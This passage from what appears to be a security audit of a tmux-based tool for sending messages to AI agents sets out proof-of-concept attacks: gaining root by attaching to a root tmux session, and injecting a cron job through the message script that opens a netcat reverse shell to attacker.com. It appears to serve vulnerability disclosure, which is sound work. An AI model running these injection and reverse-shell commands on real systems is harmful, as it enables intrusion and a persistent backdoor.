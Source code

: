 
## 9. Proof-of-Concept Attack Scenarios

### 9.1 Scenario 1: Zero-to-Root in 30 Seconds

**Attack Chain:**
1. **Initial Access:** Attacker gains access to system with user privileges
2. **Reconnaissance:** `tmux list-sessions` reveals active root session
3. **Privilege Escalation:** `sudo tmux attach-session -t root_session`
4. **System Compromise:** Full root access achieved

**Commands:**
```bash
# Step 1: Check for existing tmux sessions
tmux list-sessions

# Step 2: Identify root session
tmux list-sessions | grep root

# Step 3: Attach to root session
sudo tmux attach-session -t root_session

# Step 4: Verify root access
whoami  # Returns: root
```

**Success Probability:** 95% (if sudo rights exist)  
**Detection Probability:** 5% (no logging by default)

### 9.2 Scenario 2: Persistent Backdoor Installation

**Attack Chain:**
1. **Initial Access:** Execute send-claude-message.sh with malicious payload
2. **Command Injection:** Inject cron job installation command
3. **Persistence:** Cron job establishes reverse shell connection
4. **Evasion:** Background process runs undetected

**Commands:**
```bash
# Step 1: Install persistent backdoor via cron
./send-claude-message.sh session:window "; (crontab -l 2>/dev/null; echo '*/5 * * * * nc -e /bin/bash attacker.com 4444') | crontab -"

# Step 2: Verify cron job installation
crontab -l | grep "attacker.com"

# Step 3: Wait for cron execution and connection
nc -l -p 4444  # Attacker's machine
```

**Success Probability:** 90% (if cron available)  
**Detection Probability:** 10% (cron logs may be monitored)

### 9.3 Scenario 3: Multi-Agent Network Compromise
